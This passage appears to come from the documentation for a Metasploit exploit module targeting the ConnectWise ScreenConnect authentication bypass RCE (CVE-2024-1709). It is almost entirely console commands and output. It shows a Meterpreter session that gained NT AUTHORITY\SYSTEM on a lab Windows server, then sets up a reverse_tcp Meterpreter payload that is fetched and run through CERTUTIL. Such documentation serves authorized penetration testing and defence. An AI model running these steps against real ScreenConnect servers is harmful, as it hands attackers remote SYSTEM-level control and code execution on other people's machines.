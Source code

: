 ```

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > exit
[*] Shutting down session: 1

[*] 192.168.86.50 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```

#### Windows Command
Note: The `FETCH_WRITABLE_DIR` should be set to a suitable value like `%TEMP%`.

```
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 1
target => 1
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_COMMAND CERTUTIL 
FETCH_COMMAND => CERTUTIL
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_WRITABLE_DIR %TEMP%
FETCH_WRITABLE_DIR => %TEMP%
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      qawpczANW        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
```